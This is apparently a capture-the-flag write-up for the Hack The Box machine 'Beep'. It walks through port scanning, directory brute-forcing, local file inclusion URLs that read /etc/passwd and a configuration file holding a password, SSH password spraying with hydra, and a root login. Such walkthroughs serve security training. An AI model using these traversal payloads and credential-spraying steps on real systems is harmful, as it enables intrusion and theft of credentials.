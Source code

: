 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/beep00.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.7 -e tun0 --rate=100  
![alt text](./img/beep01.PNG?raw=true)  

nmap -v -A -sC -p 5038,877,10000,80,4190,443,25,993,4445,4559,111,995,110,143,3306,22 10.10.10.7  
![alt text](./img/beep16.PNG?raw=true)  

gobuster dir -u https://10.10.10.7 -w ~/wordlists/big.txt -t 100 -e -x php,html,aspx,txt,log,xml -k  
![alt text](./img/beep02.PNG?raw=true)  

## Exploit

A lot of things to check, but i had never saw the folder vtigercrm, so i started with it  
![alt text](./img/beep03.PNG?raw=true)  

We have the app version, so let's try to find some exploit to it  
searchsploit vtiger 5.1  
![alt text](./img/beep04.PNG?raw=true)  

searchsploit -x php/webapps/18770.txt  
![alt text](./img/beep05.PNG?raw=true)  

It is vulnerable do LFI (Local File Inclusion)...so let’s try to use this URL, only changing the LOCALHOST to 10.10.10.7  
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00  
![alt text](./img/beep06.PNG?raw=true)  

We can copy this content and put on a text editor, and adjust it to a better look  
![alt text](./img/beep07.PNG?raw=true)  

We have some good information here, but let’s start with the users. We have spamfilter and fanis with home directories  

I tried to find some useful files without success, so a i returned to searchsploit  
searchsploit elastix  
![alt text](./img/beep08.PNG?raw=true)  

The LFI caught my attention because it could show me another important file to exploit  
searchsploit -x php/webapps/37637.pl  
![alt text](./img/beep09.PNG?raw=true)  

Ok, it’s another LFI vector, but it give other file as POC. Let’s try to read it, you can choose this new url or the old one  
- https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action  
- https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00  

You can adain copy the text to organize it, but is easier just see the source code of the page  
![alt text](./img/beep10.PNG?raw=true)  

Some very useful information. Testing the credential admin:jEhdIekWmdjE we can login on 10.10.10.7 page  
![alt text](./img/beep11.PNG?raw=true)  

Maybe this same password work with some of the users found on passwd file.  
So let’s create a user.txt file with all the users and test the password with hydra  
cat user.txt  
![alt text](./img/beep12.PNG?raw=true)  

hydra ssh://10.10.10.7 -L user.txt -p jEhdIekWmdjE -t 64  
![alt text](./img/beep13.PNG?raw=true)  

## Privesc  

Ok….so we have root password  
ssh root@10.10.10.7  
![alt text](./img/beep14.PNG?raw=true)  

HABEMUS SHELL \o/  

Now, since we are root, just search and grab the flags  
![alt text](./img/beep15.PNG?raw=true)  

